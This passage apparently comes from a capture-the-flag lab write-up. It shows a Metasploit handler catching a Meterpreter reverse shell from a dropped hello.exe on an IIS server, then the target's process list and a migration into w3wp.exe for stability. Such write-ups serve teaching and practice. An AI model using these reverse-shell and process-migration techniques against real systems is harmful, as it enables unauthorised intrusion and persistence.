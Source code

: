 After executing `hello.exe`, I was able to catch the meterpreter shell which I then quickly tried to migrate to a _slightly_ stabler process. However being attached to the `cmd.exe` process still had me worried about stability.

```bash
msf5 exploit(multi/handler) > [*] Sending stage (176195 bytes) to 10.10.167.66
[*] Meterpreter session 1 opened (10.10.7.59:4444 -> 10.10.167.66:49250) at 2020-11-18 22:48:36 +0000

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 1460
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]                                       
 4     0     System                                                 
 368   4     smss.exe                                               
 520   512   csrss.exe                                              
 580   568   csrss.exe                                              
 588   512   wininit.exe                                            
 616   568   winlogon.exe                                           
 672   588   services.exe                                           
 680   588   lsass.exe                                              
 740   672   svchost.exe                                            
 784   672   svchost.exe                                            
 820   672   svchost.exe                                            
 868   616   dwm.exe                                                
 876   672   svchost.exe                                            
 904   672   svchost.exe                                            
 964   672   svchost.exe                                            
 1020  672   svchost.exe                                            
 1132  672   spoolsv.exe                                            
 1156  672   amazon-ssm-agent.exe                                   
 1208  2792  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1216  672   svchost.exe                                            
 1236  672   LiteAgent.exe                                          
 1292  672   svchost.exe                                            
 1356  672   svchost.exe                                            
 1372  672   svchost.exe                                            
 1388  672   WService.exe                                           
 1460  2792  hello.exe             x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\hello.exe
 1488  1372  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 1548  1388  WScheduler.exe                                         
 1652  672   Ec2Config.exe                                          
 1740  740   WmiPrvSE.exe                                           
 1988  672   msdtc.exe                                              
 2412  1200  WScheduler.exe                                         
 2588  904   taskhostex.exe                                         
 2664  2656  explorer.exe                                           
 2792  1488  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 3064  2612  ServerManager.exe                                      

meterpreter > migrate 1488
[*] Migrating from 1460 to 1488...
[*] Migration completed successfully.
```

